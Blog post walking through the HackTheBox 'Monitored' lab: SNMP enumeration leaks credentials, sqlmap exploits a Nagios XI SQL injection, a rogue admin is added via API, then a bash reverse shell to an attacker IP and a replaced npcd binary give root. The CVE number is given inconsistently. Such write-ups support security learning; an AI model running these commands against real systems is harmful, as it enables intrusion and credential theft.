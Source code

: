 +++ 
draft = false
date = 2024-02-17T13:07:16+01:00
title = "Monitored HTB Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["NMAP UDP", "JohnTheRipper", "CVE-2023-51457", "Dirsearch", "UDP enumeration", "SNMPwalk", "SQLmap", "SQL injection"]
categories = []
externalLink = ""
series = []
+++

![image](Screenshot_20.png)

The Monitored HTB machine is a medium difficulty level HackTheBox Machine. The main tools and techniques used to crack this machine are:

        - Dirsearch
        - CVE-2023-40931
        - NMAP UDP scan
        - SNMP enumeration with SNMPwalk
        - JohnTheRipper
        - SQL injection with SQLmap


## Reconnaissance

We start a broad Nmap TCP scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.248 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:

![image](Screenshot_2.png)

THere are a lot of open ports besides 22, 80 and 443. What is interesting is that port 389 (LDAP) is open. Next, we run a more comprehensive scan on the open ports to discover services and versions running on them:

```sh
sudo nmap -sCV -p22,80,389,443,5667,8081 10.10.11.248 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:

![image](Screenshot_3.png)

However, in this machine, there is more interesting ports to be discovered. This is revealed by running a NMAP UDP scan:

```sh
sudo nmap -sU -p- 10.10.11.248 --defeat-icmp-ratelimit --min-rate 5000 -oN nmap_udp
```
    -sU: UDP scan
    -oN: Normal output format
    --defeat-icmp-ratelimit: Used to speed up the scan since UDP scans take longer
    --min-rate: Specifies the minimum packets/second transmitted

Te results for the UDP scan are the following:

![image](Screenshot_4.png)

Port 161 is open. Now lets run a more comprehensive scan to see what is running on port 161, which is usually SNMP.

```sh
sudo nmap -sUCV -p161 10.10.11.248
```

    -sUCV: Launches all scanning scripts to discover services and versions running on these ports over UDP.

This scan reveals that, in fact, the service running IS SNMP v2c. This is good because the SNMP reconnaissance can provide a lot of information.

![image](Screenshot_5.png)

In the meantime, lets use dirsearch to do some subdomain discovery:

```sh
dirsearch -u https://monitored.htb/ --exclude-status 403,404,500
```
![image](Screenshot_1.png)

There is a interesting /nagios subdirectory. Upon trying to access the website, we are prompted for credentials which we don't have yet.

Adding monitored.htb to /etc/hosts, we can visit the webpage. From there, we can acces the website https://monitored/nagiosxi/login, where we can log in with valid credentials. Default and common credentials don't work either, so we have to keep looking.

### SNMP enumeration

For SNMP enumeration, there is a very good guide on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp). We are going to use SNMPwalk with public credentials to see what information we can get:

```sh
snmpwalk -v2c -c public 10.10.11.248
```
There is a very interesting line where we can see the svc credentials:

![image](Screenshot_6.png)

## Initial foothold

With this credentials, we can log in to the nagios core portal, https://monitored.htb/nagios. We are greeted with the following panel:

![image](Screenshot_7.png)

We can not do much here. Doing some research, I have stumbled upon [CVE-2023-40931](https://medium.com/@n1ghtcr4wl3r/nagios-xi-vulnerability-cve-2023-40931-sql-injection-in-banner-ace8258c5567). It represents a sql injection possible when authenticated. However, we need an authentication token to make it work. It can be obtained with a POST request to the api:

```sh
curl -ksX POST https://monitored.htb/nagiosxi/api/v1/authenticate --data "username=svc&password=XjH7VCehowpR1xZB"
```

The response is the following:

```sh
{"username":"svc","user_id":"2","auth_token":"6ed830a5d45b3fd199bcabf0dee5940ef39be98a","valid_min":5,"valid_until":"Sat, 17 Feb 2024 17:44:12 -0500"}
```

By specifying the valid_min parameter to a higher numer, the token will be valid for longer.

```sh
curl -ksX POST https://monitored.htb/nagiosxi/api/v1/authenticate --data "username=svc&password=XjH7VCehowpR1xZB&valid_min=1200"
```

```sh
{"username":"svc","user_id":"2","auth_token":"da04dba2da704a7f7a135585fbab1e0d7d75c1a8","valid_min":1200,"valid_until":"Sun, 18 Feb 2024 13:40:19 -0500"}
```

Now we have the necessary ingredients to exploit CVE-2023-40931. We have to make a POST resquest to /nagiosxi/admin/banner_message-ajaxhelper.php with the data action=acknowledge_banner_message&id=3, where the parameter ID is injectable. For this SQL injection, we are going to use SQLmap, an automatic SQLi script.

```sh
sqlmap -u "https://monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=<TOKEN>" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users
```
By dumping the xi_users table, we get the information of the users of nagiosxi:

![image](Screenshot_8.png)

	- Nagios Administrator: nagiosadmin
	- apikey: IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL


We can try to also crack the hash using JohnTheRipper

![image](Screenshot_9.png)

The credentials are:

```sh
nagiosadmin::test123
```

These credentials don't work, so maybe the account is disabled or blocked. However, upon doing some more research, it seems like we can add another user to nagiosxi via the API (https://support.nagios.com/forum/viewtopic.php?t=42923). For this, the apikey we got earlier for the nagiosadmin user will be handy.

```sh
curl -ksX POST "https://monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL" -d "username=dennis&password=dennis&name=dennis&email=dennis@localhost&auth_level=admin"
```
![image](Screenshot_10.png)

We now can access the nagiosxi portal using the credentials dennis::dennis. On the configure/Core Config Manager page, we can specify a custom command. This is a perfect way to establish a reverse shell to the underlying system.

![image](Screenshot_12.png#center)

We can add the custom command which  will send a reverse shell:


```sh
bash -c 'bash -i >& /dev/tcp/10.10.15.47/1234 0>&1'
```

![image](Screenshot_11.png#center)

However, no reverse shell is received. Doing some more digging, we have so set it up as s service. This is achieved in Service Management, editing one of the existing services to run our command.

![image](Screenshot_13.png)

Now we have access to the underlying system as user nagios. We do some TTy treatment to have a full interactive tty:

![image](Screenshot_14.png)

## Privilege escalation

Lets see what commands can user nagios execute as root:

```sh
sudo -l
```

![image](Screenshot_15.png)

There is interesting commands that this user can run. The most interesting one is manage_services.sh. This is what this script does:

![image](Screenshot_17.png)

It looks like it can manage the services run under the nagios hood. This is interesting because we can maybe hikack this services. This is exactly what we are going to do with the npcd executable: Delete de original one, replace it with our own code and restart the services using manage_services.sh. It should retur a root shell.

```sh
rm /usr/local/nagios/bin/npcd # Delete originl binary
nano /usr/local/nagios/bin/npcd # Create our own script
chmod +x /usr/local/nagios/bin/npcd # Give it +x permmissions
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd # Restart the service
```

The content of the new executable is a new reverse shell, hopefully as root:

![image](Screenshot_18.png#center)

And indeed, we now have root access to the system and can read the root flag. The machine is PWNED.

![image](Screenshot_19.png)

## Conclusion

This machine reveals the importance of not having insecure information avaliable via SNMTP, as this information leak can transform into a very severe security hole. With access to the svc account, we managed to leverage CVE-2023-51457 to access the admin panel and compromise the underlying system.

![image](Screenshot_20.png)